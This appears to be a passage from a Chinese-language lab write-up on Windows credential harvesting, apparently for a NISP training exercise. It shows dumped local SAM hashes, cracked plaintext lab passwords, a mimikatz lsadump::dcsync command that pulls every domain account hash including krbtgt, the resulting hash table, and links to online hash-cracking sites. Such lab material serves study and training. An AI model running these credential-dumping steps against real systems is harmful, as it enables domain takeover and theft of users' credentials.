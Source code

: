 #### 本机抓取哈希

![image-20241125172802863](https://image.201068.xyz/assets/writeup/image-20241125172802863.png)

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8f909fdb472d0b85cddb3e36669a9b07:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NISP:1000:aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4:::
```



```bash
Administrator
NTLM     : fb5286d5ccae2d7e33b00b2a6431cf7a
```

> Administrator / Admin123$%^
>
> NISP / 123456

解密密码

https://cmd5.com/

www.somd5.com

![image-20241126122617818](https://image.201068.xyz/assets/writeup/image-20241126122617818.png)

##### 抓取明文密码

win7

![image-20241126132320028](https://image.201068.xyz/assets/writeup/image-20241126132320028.png)

```bash
Administrator / Admin123$%^
```



#### 域内用户凭证

```bash
mimikatz lsadump::dcsync /domain:nisp.com /all /csv
```

![image-20241125173647563](https://image.201068.xyz/assets/writeup/image-20241125173647563.png)

```bash
1104	A-PC$	301325f98ee69dd022f4a06a2aa5e036	4096
502	krbtgt	4ff9d4088bfd7677fba883516e3cddd6	514
1001	WIN-AAL3RP4ELEQ$	7156f9a0d84c24d3e2d804d57df2e867	532480
500	Administrator	fb5286d5ccae2d7e33b00b2a6431cf7a	66048
1602	NISP-PC$	931858354bc7e6626692c10435e44737	4096
```

www.somd5.com

